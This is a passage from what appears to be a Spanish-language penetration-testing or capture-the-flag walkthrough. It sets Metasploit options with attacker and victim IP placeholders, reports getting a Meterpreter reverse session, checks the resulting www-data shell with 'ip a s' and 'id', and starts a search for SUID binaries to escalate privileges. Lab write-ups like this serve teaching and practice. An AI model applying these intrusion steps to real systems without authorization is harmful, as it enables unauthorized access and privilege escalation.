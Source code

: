Pues nada, le metemos los parámetros necesarios 

```
set PASSWORD [contraeña]
set USERNAME [usuario]
set LHOST [IPatacante]
set RHOST [IPvictima]
run
```

![Imagen026](26.jpeg)

Igualmente, Metasploit nos automatiza la tarea y nos va poniendo información de lo que va haciendo, hasta que finalmente tenemos un conexión con el sistema objetivo, mediante una sesión Meterpreter. 

Pues nada, nos ponemos una Shell y comprobamos que efectivamente estamos en el equipo objetivo como el usuario www-data

```bash
ip a s
id
```

![Imagen027](27.jpeg)

Lo que se nos ocurre hacer para elevar nuestros privilegios, es buscar binarios con el bit SUID activo 
